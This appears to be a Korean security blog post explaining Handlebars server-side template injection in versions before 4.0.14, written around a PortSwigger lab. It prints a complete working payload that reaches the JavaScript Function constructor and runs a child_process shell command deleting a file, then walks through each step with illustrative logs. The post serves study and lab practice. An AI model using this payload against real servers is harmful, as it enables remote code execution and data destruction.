 ```yaml
---
title: Handlebars SSTI
desc: Handlebars SSTI란 무엇인가?
date: 2024-12-04
thumbnail: /posts/advanced_skill/handlebars_ssti/thumbnail.png
---
```


## Handlebars SSTI란?
Handlebars SSTI는 서버 측 템플릿 엔진인 Handlebars에서 발생할 수 있는 보안 취약점입니다. 이 취약점은 공격자가 서버에서 실행되는 코드를 주입할 수 있게 하여, 원하지 않는 명령어 실행이나 데이터 유출을 초래할 수 있습니다.

> 💡 이 취약점은 4.0.14 이전 버전에서만 발생합니다.

---

## 배경

### SSTI
SSTI는 Server-Side Template Injection의 약자로, 템플릿 엔진에 악의적인 구문을 삽입하여 공격이 성공할 경우 RCE, LFI 등을 실행할 수 있습니다.

### Handlebars
Handlebars는 Node.js 기반 프레임워크에서 사용되는 템플릿 엔진입니다.

---

## Payload
```handlebars
{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

---

## Payload Explain

### 1. "s" 문자열을 변수화
```handlebars
{{#with "s" as |string|}}
    ...
{{/with}}
```
`{{#with ... as |alias|}}`는 Handlebars.js에서 제공하는 블록 헬퍼로, "s"라는 문자열을 **string**이라는 이름으로 변수화합니다. 이 변수는 이후 조작 대상이 됩니다.

```log
[INFO] "s" 문자열이 string 변수로 할당됨
[DEBUG] string = "s"
```

### 2. split 객체를 conslist라는 변수로 할당
```handlebars
{{#with split as |conslist|}}
    ...
{{/with}}
```
`split`은 JavaScript에서 문자열을 특정 구분자를 기준으로 나누는 메서드입니다. 이 템플릿에서는 이를 통해 리스트(배열)처럼 보이는 객체를 생성합니다. 생성된 리스트는 `conslist`라는 이름으로 저장되며, 이후 객체 내부 메서드(push, pop)를 이용해 조작됩니다.

```log
[INFO] split 객체가 conslist로 할당됨
[DEBUG] conslist 초기값 = []
```

### 3. pop 메서드 호출
```handlebars
{{this.pop}}
```
`pop` 메서드는 배열의 마지막 요소를 제거하고 반환합니다. 리스트가 비어있으므로 아무것도 하지 않음

```log
[INFO] conslist에서 pop 메서드 호출
[DEBUG] conslist = []
```

### 4. constructor 객체에 접근
```handlebars
{{this.push (lookup string.sub "constructor")}}
```
`lookup`는 특정 객체의 속성이나 메서드에 접근하는 헬퍼입니다. 여기서 `string.sub`는 string 객체에서 sub 메서드를 참조한 것입니다. `constructor`는 JavaScript의 모든 객체에 존재하는 기본 속성으로, 생성자 함수에 접근하는 데 사용됩니다. 결과적으로 이 코드는 JavaScript의 Function constructor를 참조하여 임의 코드 실행이 가능하게 만듭니다.

```log
[INFO] string.sub 메서드의 constructor 속성 참조 시도
[DEBUG] constructor = [Function: Function]
[INFO] conslist에 constructor 참조 추가
[DEBUG] conslist = [[Function: Function]]
```

### 5. 시스템 명령어 정의
```handlebars
{{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
```
여기서 push를 통해 리스트에 시스템 명령어를 포함하는 문자열을 삽입합니다. 명령어 내용:
`require('child_process')`는 Node.js에서 시스템 명령어를 실행할 수 있는 모듈을 로드합니다. `.exec(...)`는 시스템 쉘 명령어를 실행하는 메서드로, 여기서는 서버에서 특정 파일(/home/carlos/morale.txt)을 삭제하는 명령어(rm)를 실행하려고 합니다.

```log
[ACTION] string.split 호출로 codelist 생성.
[STATE] codelist = ["return require('child_process').exec('rm /home/carlos/morale.txt');"]
```

### 6. 템플릿 반복문 실행
```handlebars
{{#each conslist}}
    {{#with (string.sub.apply 0 codelist)}}
        {{this}}
    {{/with}}
{{/each}}
```
`#each`는 Handlebars.js에서 제공하는 반복문으로, 리스트(conslist)의 모든 요소를 순회합니다. `string.sub.apply(0, codelist)`는 `string.sub`가 문자열 메서드 Function을 참조한 것으로, `apply`를 사용해 실행 시 인자를 리스트로 전달합니다. 이를 통해 조작된 codelist를 실행 컨텍스트에 적용하여 JavaScript 코드를 실행하려 합니다. 최종적으로 `{{this}}`는 템플릿 내에서 현재 컨텍스트를 출력하거나 실행하는 데 사용됩니다.

```log
[INFO] conslist 순회 시작 (현재 conslist는 빈 배열).
[ACTION] string.sub.apply 호출로 codelist 실행.
[EXECUTE] "require('child_process').exec('rm /home/carlos/morale.txt');" 실행.
```

공격자는 템플릿 엔진이 제공하는 헬퍼와 메서드 체인 조작 기능을 이용해 JavaScript의 Function constructor에 접근하고, 이를 통해 코드를 실행합니다.

---

## Reference
- [HackTricks - SSTI](https://book.hacktricks.xyz/kr/pentesting-web/ssti-server-side-template-injection)
- [Mahmoud Security Blog](https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html)
- [Handlebars.js 공식 문서](https://handlebarsjs.com/ko/guide/builtin-helpers.html#with)

---

## Lab
- [PortSwigger Lab](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit)